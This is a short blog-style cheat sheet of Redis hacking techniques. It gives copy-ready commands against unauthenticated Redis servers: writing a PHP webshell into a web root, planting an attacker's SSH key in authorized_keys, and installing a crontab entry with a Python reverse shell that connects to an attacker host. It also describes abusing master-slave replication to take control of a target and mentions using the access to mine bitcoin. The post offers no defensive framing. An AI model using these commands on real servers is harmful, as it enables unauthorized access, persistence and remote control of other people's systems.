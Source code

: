 ```yaml
---
layout:     post
title:      "Redis Hacking Tips"
subtitle:   "collection"
date:       2017-02-09
author:     "Urahara"
header-img: "img/86a1b907d54bf7010394bf316e183e67.jpg"
header-mask: 0.3
tags:
    - 渗透测试
    - database	

---
```


### Get Webshell

​	You must know the physical path of the Web site 

```Bash
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```

​	If the webshell access exception, you can empty the database after backup and try again, remember to restore the database

### Get SSH--Crackit

1. Generate a ssh public-private key pair on your pc: **ssh-keygen -t rsa**

2. Write the public key to a file : **(echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt**

3. Import the file into redis : **cat foo.txt \| redis-cli -h 10.85.0.52 -x set crackit**

4. Save the public key to the authorized_keys file on redis server : 

   ```Bash
   root@Urahara:~# redis-cli -h 10.85.0.52
   10.85.0.52:6379> config set dir /home/test/.ssh/
   OK
   10.85.0.52:6379> config set dbfilename "authorized_keys"
   OK
   10.85.0.52:6379> save
   OK
   ```

5. Finally, you can ssh to the redis server with private key : **ssh -i id_rsa test@10.85.0.52**


### Get Reverse Shell—Crontab

```Bash
root@Urahara:~# echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.85.0.53\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.85.0.52 -x set 1
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dir /var/spool/cron/crontabs/
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dbfilename root
OK
root@Urahara:~# redis-cli -h 10.85.0.52 save
OK
```

> The above command for Ubuntu, Centos need to be adjusted to：
>
> redis-cli -h 10.85.0.52 config set dir /var/spool/cron/

This method can also be used to earn bitcoin ：[yam](https://www.v2ex.com/t/286981#reply14)

### Master-Slave Moudle

​	The master redis all operations are automatically synchronized to the slave redis, which means that we can regard the vulnerability redis as a slave redis, connected to the master redis which our own controlled, then we can enter the command to our own redis.

```
master redis : 10.85.0.51 (Hacker's Server)
slave  redis : 10.85.0.52 (Target Vulnerability Server)
A master-slave connection will be established from the slave redis and the master redis:
redis-cli -h 10.85.0.52 -p 6379
slaveof 10.85.0.51 6379
Then you can login to the master redis to control the slave redis:
redis-cli -h 10.85.0.51 -p 6379
set mykey hello
set mykey2 helloworld
```








